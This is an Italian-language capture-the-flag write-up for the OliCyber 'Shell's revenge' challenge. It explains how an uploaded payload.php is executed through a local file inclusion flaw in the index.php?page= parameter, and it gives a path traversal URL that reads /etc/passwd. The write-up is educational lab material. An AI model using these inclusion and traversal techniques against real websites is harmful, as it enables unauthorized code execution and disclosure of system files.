

# Shell's revenge

http://shellrevenge2.challs.olicyber.it/

## Spiegazione

In questa variante di shells revenge, per eseguire il codice PHP viene sfruttata la "scema" funzionalità di caricamento pagine specificando quale file vogliamo mostrare. Una vulnerabilità simile a basic_lfi.

In particolare notiamo che le pagine vengono mostrate così:

```http://shellrevenge2.challs.olicyber.it/index.php?page=upload.php```

Si nota come si specifica il parametro page e il file php da renderizzare.

Quindi noi facciamo l'upload del nostro payload.php e poi usiamo l'URL a quel file.

Dopo aver caricato il payload notiamo che l'URL è ```http://shellrevenge2.challs.olicyber.it/uploads/5d8427e21a2614b7ee7ea59cb385be2d/payload.php``` e che quindi probabilmente il percorso è ```uploads/<id_univoco_utente>/<nome_file>```

Se noi usiamo questo percorso relativo acceddiamo al file tipo ```page=uploads/<id_univoco_utente>/<nome_file>```

```http://shellrevenge2.challs.olicyber.it/index.php?page=uploads/5d8427e21a2614b7ee7ea59cb385be2d/payload.php```


Inoltre si può fare semplice path traversal ed arrivare a /etc/passwd con ```http://shellrevenge2.challs.olicyber.it/index.php?page=../../../../../../../etc/passwd```

